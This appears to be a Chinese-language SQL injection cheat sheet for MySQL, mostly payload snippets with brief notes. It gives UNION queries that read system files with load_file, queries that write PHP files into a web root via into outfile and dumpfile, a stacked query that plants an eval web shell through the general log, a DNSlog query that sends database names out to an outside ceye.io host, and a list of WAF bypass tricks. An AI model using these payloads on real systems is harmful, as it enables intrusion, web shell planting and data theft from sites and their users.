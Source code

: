 写文件的时候还需要看 php.ini 里面 gpc 是否开启看，开启的情况下，特殊字符都会被转义。

```sql
union select 1,2,3,4,load_file('c:\\window\\win.ini')
union select load_file('c:/boot.ini')
union select load_file(0x633a2f626f6f742e696e69)
union select load_file('//ecma.io/1.txt') # smb 协议。
union select load_file('\\\\ecma.io\\1.txt') # 可用于 DNS 隧道。
union select load_file(char(47)) # 可以列出 FreeBSD，Sunos 系统的根目录，char(47) 就是 '/'。
```

### 写一句话木马

- [x] root 权限。
- [x] 网站绝对路径。

```sql
union select 1,2,'<?php phpinfo()?>' into outfile "E\\phpStudy\\PHPTutoral\\www\\1.php" --+
union select 1,2,'<?php phpinfo()?>' into dumpfile "E\\phpStudy\\PHPTutoral\\www\\1.php" --+
```

*outfile*和*dumpfile*的区别：

`outfile` 后面不能接 0x 开头或者 char 转换以后的路径，只能是单引号路径,但是值的部分可以是 16 进制。在使用 outfile 时,文件中一行的末尾会自动换行,且可以导出全部数据,同时如果文本中存在 \n 等字符,会自动转义成 \n,也就是会多加一个 \。outfile 函数可以导出多行，而 `dumpfile` 只能导出一行数据；outfile 函数在将数据写到文件里时有特殊的格式转换，而 dumpfile 则保持原数据格式。而使用 dumpfile 时,一行的末尾不会换行且只能导出部分数据（这里比较数据比较少,没有体现出来）；但 dumpfile 不会自动对文件内容进行转义,而是原意写入（这就是为什么我们平时 UDF 提权时使用 dumpfile 来写入的原因）。

### 堆叠注入写木马

```sql
# 主要利用 mysql 日志来写 shell。
set global general_log = "ON";set global general_log_file='C:/wamp64/www/ma.php';select '<?php eval($_POST[cmd]);?>';
```

### DNSlog外带查询

- [x] root 权限。
- [x] mysql.ini 中 secure_file_priv 必须为空。
- [x] Windows 系统。

```sql
'1' and load_file(concat('\\\\',(select database()),'.27epx0.ceye.io\\abc'))--+ # 使用 Windows 下的 UNC 路径。
```

相应的更换`select database()`查询语句便可以实现 DNS 外带的回显注入，其中 27epx0.ceye.io 为 ceye.io 平台给每个账号起的昵称。

## 绕过语句

* 大小写。
* 双写关键字。
* URL 编码。
* 内联注释。
* 等价函数替换。
* 分块传输。
* 遇到云 WAF，寻找真实 IP。
* `%0a`。
* `between a and b`。
* 缓冲区溢出。
